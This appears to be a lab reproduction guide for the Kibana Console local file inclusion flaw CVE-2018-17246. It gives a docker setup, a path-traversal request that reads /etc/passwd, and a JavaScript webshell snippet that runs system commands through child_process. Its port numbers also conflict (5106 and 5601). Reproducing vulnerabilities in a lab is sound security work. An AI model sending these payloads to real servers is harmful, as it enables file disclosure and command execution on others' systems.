


Kibana Local File Inclusion (CVE-2018-17246)¶
Kibana is an open source data visualization dashboard for Elasticsearch.
Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.
References:
- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/
Environment Setup¶
Start the Kibana 5.6.12 and Elasticsearch 5.6.16:
docker compose up -d
After started the environment, the Kibana is listening on http://your-ip:5106.
Vulnerability Reproduction¶
Send the following request to trigger a basic path traversal:
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
Though there is nothing response except a error message with the 500 status code, you can see the exception in the docker compose logs:

File /etc/passwd is imported successfully.
To exploit this vulnerability, you need to upload a JavaScript webshell to the machine where the Kibana is running, then include it.
// docker compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
